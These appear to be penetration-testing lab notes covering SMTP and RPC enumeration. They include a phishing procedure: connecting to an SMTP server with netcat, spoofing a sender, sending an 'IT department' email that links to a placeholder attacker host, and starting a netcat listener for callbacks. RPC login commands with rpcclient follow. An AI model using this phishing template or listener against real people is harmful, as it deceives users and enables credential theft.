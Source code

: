 ~~~ad-note
title:Steps to Reproduce: Phishing Attack
collapse:yes

If there is any indicative of users expecting a link, we can try to launch a phishing attack by accessing SMTP once again and sending a link that points to a listener:

```bash
nc -nv 10.10.239.94 25
helo hacker
MAIL FROM: (impersonated user)@domain
RCPT TO: (target user)@domain

```

We start a listener:

```bash
rlwrap nc -nlvp 80
```

We write the body, containing a link and send it:

```bash
DATA
Subject: Phishing

Hello,

This is Andy from IT, unfortunately we had a problem with our database. We need you to please register at http://ATTKIP/. Please let me know if you encounter any problems.

Regards,
IT
.
```

Once we add that final dot the message is sent, keep checking the listener to see if any callbacks are received.
~~~

### RPC (135, 593 TCP)

> [135, 593 - Pentesting MSRPC | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)

~~~ad-check
title:Logging into RPC

```bash
rpcclient 10.10.239.94 -U 'user%pass' 

rpcclient -U 'guest%'
```

*Screenshot*
___


~~~
